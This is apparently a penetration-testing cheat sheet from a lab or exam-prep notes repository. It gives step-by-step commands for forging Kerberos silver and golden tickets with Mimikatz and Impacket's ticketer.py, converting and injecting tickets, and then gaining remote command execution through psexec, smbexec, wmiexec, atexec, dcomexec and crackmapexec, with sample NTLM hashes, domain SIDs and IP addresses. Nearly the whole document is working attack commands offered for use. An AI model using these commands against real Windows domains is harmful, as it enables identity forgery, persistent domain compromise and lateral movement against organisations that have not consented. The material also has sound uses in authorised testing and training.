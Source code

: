 ### Generatre Silver Ticket

*To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.*

*Creating the golden ticket and injecting it into memory does not require any administrative privileges*

#### Using Mimikatz
***Create & inject a ticket in memory :***

```powershell 

C:\>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103

```

AD SID : <font style="color:red">S-1-5-21-1602875587-2787523311-2599479668</font>

```powershell
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```



#### Using Ticketer

```bash
/opt/impacket/examples/ticketer.py -nthash d098fa8675acd7d26ab86eb2581233e5 -domain-sid S-1-5-21-88558181-3850747640-3669402957 -domain EXAM.COM -spn ZENSVC/DC02.exam.com random_user
```

### Using TicketConverter
```bash
python /opt/impacket/examples/ticketConverter.py '[0;99989]-2-0-40e10000-zensvc@krbtgt-EXAM.COM.kirbi' zensvc.ccache
```

### PTT

```bash
export KRB5CCNAME='/path/to/random_user.ccache'
```

```bash
/opt/impacket/examples/psexec.py -dc-ip 192.168.237.170 -target-ip 192.168.237.170 EXAM.COM/aoukUser@xor.com -k -no-pass
```

```shell
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami

```

### Generatre Golden Ticket

#### Using Mimikatz

```powershell
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```
